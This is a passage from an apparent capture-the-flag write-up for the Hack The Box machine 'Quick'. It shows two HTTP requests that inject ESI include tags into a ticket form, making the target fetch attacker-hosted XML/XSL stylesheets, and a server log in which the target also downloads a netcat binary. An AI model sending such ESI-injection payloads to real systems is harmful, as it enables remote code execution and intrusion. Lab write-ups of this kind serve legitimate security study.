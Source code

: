 > We need to start **python** server to let the machine download the `xsl` file from our machine.

**Execute first request**

```
POST /ticket.php HTTP/1.1
Host: quick.htb:9001
Content-Length: 120
Cache-Control: max-age=0
Origin: http://quick.htb:9001
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/X.png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://quick.htb:9001/ticket.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: PHPSESSID=park1igb2tlpu91ane3rlglnj0
Connection: close

title=a&msg=<esi:include+src="http://10.10.14.75/rhovelionz1.xml"+stylesheet="http://10.10.14.75/rhovelionz1.xsl"></esi:include>&id=TKT-1337
```

The machine downloaded the `files` from my machine.

```
➜  Quick python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.186 - - [15/Jul/2020 13:08:50] "GET /rhovelionz1.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Jul/2020 13:08:51] "GET /rhovelionz1.xml HTTP/1.1" 200 -
10.10.10.186 - - [15/Jul/2020 13:08:51] "GET /nc HTTP/1.1" 200 -
```

> **Execute second request**

```
POST /ticket.php HTTP/1.1
Host: quick.htb:9001
Content-Length: 120
Cache-Control: max-age=0
Origin: http://quick.htb:9001
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/X.png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://quick.htb:9001/ticket.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: PHPSESSID=park1igb2tlpu91ane3rlglnj0
Connection: close

title=a&msg=<esi:include+src="http://10.10.14.75/rhovelionz2.xml"+stylesheet="http://10.10.14.75/rhovelionz2.xsl"></esi:include>&id=TKT-1338
```
